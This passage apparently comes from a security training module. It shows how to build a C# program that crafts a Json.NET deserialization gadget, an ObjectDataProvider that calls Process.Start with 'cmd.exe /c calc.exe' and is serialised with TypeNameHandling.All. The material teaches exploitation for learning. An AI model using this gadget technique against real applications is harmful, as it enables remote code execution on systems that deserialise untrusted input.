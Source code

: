 ![image](https://academy.hackthebox.com/storage/modules/240/3/14.png)

With `Visual Studio` installed, we can open it and create a new `Console App (.NET Framework)`.

![image](https://academy.hackthebox.com/storage/modules/240/3/13.png)

We can reuse the code from the previous section to base our `ObjectDataProvider` object on.

```csharp
using System.Windows.Data;

namespace RememberMeExploit
{
    internal class Program
    {
        static void Main(string[] args)
        {
            ObjectDataProvider odp = new ObjectDataProvider();
            odp.ObjectType = typeof(System.Diagnostics.Process);
            odp.MethodParameters.Add("C:\\Windows\\System32\\cmd.exe");
            odp.MethodParameters.Add("/c calc.exe");
            odp.MethodName = "Start";
        }
    }
}

```

There will be an error regarding `ObjectDataProvider`. Visual Studio will not reference the necessary namespace by itself for this class, so it is necessary to hover over it, select `Show potential fixes` and then select `using System.Windows.Data; (from PresentationFramework)`

![image](https://academy.hackthebox.com/storage/modules/240/3/62.png)

Once that's cleared up, we can add the following lines to serialize the object with `Json.NET` and print it out to the console.

```csharp
JsonSerializerSettings settings = new JsonSerializerSettings()
{
    TypeNameHandling = TypeNameHandling.All
};
string json = JsonConvert.SerializeObject(odp, settings);
Console.WriteLine(json);

```

There will be another error, because `Json.NET` is not an official `Microsoft` package and is therefore not installed by default. If you are using your own Windows VM for this module, you may simply head down to the `Package Manager Console` and run the command `Install-Package Newtonsoft.Json` to install it.

```powershell
Install-Package Newtonsoft.Json

```
